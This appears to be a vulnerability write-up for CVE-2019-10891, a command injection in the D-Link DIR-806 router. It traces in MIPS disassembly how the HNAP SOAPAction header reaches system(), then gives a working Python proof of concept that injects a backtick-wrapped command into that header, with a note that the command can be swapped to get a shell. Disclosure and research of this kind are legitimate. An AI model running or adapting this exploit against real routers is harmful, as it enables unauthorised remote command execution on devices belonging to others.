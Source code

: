 # DIR-806_Code_Injection
**CVE-2019-10891**
The fireware is the lasted version of DIR-806 in D-LINK website：
```
http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-806 
```
## Vulnerability Analyze
When the router get the request of HNAP, it will call the hnap_main() function in /htdocs/cgibin,then it get SOAPAction by getenv :
```
.text:00411FAC                 la      $a0, aHttp_authoriza  # "HTTP_AUTHORIZATION"
.text:00411FB0                 lui     $a0, 0x42  # 'B'
.text:00411FB4                 lw      $gp, 0x248+var_230($sp)
.text:00411FB8                 la      $a0, aHttp_soapactio  # "HTTP_SOAPACTION"
.text:00411FBC                 la      $t9, getenv
.text:00411FC0                 jalr    $t9 ; getenv
.text:00411FC4                 move    $s2, $v0
.text:00411FC8                 lui     $a0, 0x42  # 'B'
.text:00411FCC                 lw      $gp, 0x248+var_230($sp)
.text:00411FD0                 la      $a0, aRequest_method  # "REQUEST_METHOD"
.text:00411FD4                 la      $t9, getenv
```
then it will check the SOAPAction start with `http://purenetworks.com/HNAP1/GetDeviceSettings`:
```
.text:00411FF0                 la      $t9, strstr
.text:00411FF4                 la      $a1, aHttpPurenetwor  # "http://purenetworks.com/HNAP1/GetDevice"...
.text:00411FF8                 jalr    $t9 ; strstr
.text:00411FFC                 move    $a0, $s0         # haystack
.text:00412000                 lw      $gp, 0x248+var_230($sp)
.text:00412004                 bnez    $v0, loc_412044
```
then the function will get the string in SOAPAction that after the right "/" by strrchr:
```
.text:00412044                 la      $t9, strrchr
.text:00412048                 move    $a0, $s0         # s
.text:0041204C                 jalr    $t9 ; strrchr
.text:00412050                 li      $a1, 0x2F  # '/'  # c
.text:00412054                 lw      $gp, 0x248+var_230($sp)
.text:00412058                 bnez    $v0, loc_412080
```
finally it will call sprintf to make a shell and call system to run it：
```
.text:00412420                 move    $a0, $s4
.text:00412424                 la      $a2, aVarRun_0   # "/var/run/"
.text:00412428                 b       loc_412440
.text:0041242C                 la      $a1, aShSS_shDevCons  # "sh %s%s.sh > /dev/console"
.text:00412430  # ---------------------------------------------------------------------------
.text:00412430
.text:00412430 loc_412430:                              # CODE XREF: hnap_main+4C4↑j
.text:00412430                 lui     $a1, 0x42  # 'B'
.text:00412434                 move    $a0, $s4         # s
.text:00412438                 addiu   $a2, (aVarRun_0 - 0x420000)  # "/var/run/"
.text:0041243C                 la      $a1, aShSS_shDevCo_0  # "sh %s%s.sh > /dev/console &"
.text:00412440
.text:00412440 loc_412440:                              # CODE XREF: hnap_main+4D8↑j
.text:00412440                 jalr    $t9 ; sprintf
.text:00412444                 move    $a3, $s0
.text:00412448                 lw      $gp, 0x248+var_230($sp)
.text:0041244C                 la      $t9, system
.text:00412450                 jalr    $t9 ; system
```
so when we make a fake SOAPAction start with `http://purenetworks.com/HNAP1/GetDeviceSettings` and end with `/our cmd`,it will finally execv our cmd in system function
## POC
```
from pwn import *
import requests
import sys

data="<?xml version=\"1.0\" encoding=\"UTF-8\"?>\
<soap:Envelope xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\" xmlns:xsd=\"http://www.w3.org/2001/XMLSchema\" xmlns:soap=\"http://schemas.xmlsoap.org/soap/envelope/\" soap:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\">\
  <soap:Body>\
    <GetWanSettings xmlns=\"http://purenetworks.com/HNAP1/\">\
    </GetWanSettings>\
  </soap:Body>\
</soap:Envelope>"

if __name__=="__main__":
    cmd="reboot" #the shell you want execv,it can't include "/"
    fake_cmd="http://purenetworks.com/HNAP1/GetDeviceSettings/`%s`"  %cmd
    print fake_cmd
    header = {
        'SOAPAction' : fake_cmd,
        'Cookie'        : "uid=LS32Srlx8N",
        'Content-Type'  : 'text/xml',
        'Content-Length': str(len(data))
        }
    url="http://192.168.0.1/HNAP1/"
    r=requests.post(url=url,headers=header,data=data)
    print r.content
    log.info("Kirin-say PWN")
```
when you run this poc,it will reboot the router(DIR-806),and you can also edit the cmd you want to run to get shell or something else.
For example(I run the fireware in firm dyne and run its web server,when I run the POC,the router reboot successfully)
![Success](https://upload-images.jianshu.io/upload_images/7434375-62cf44267ffd84b5.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
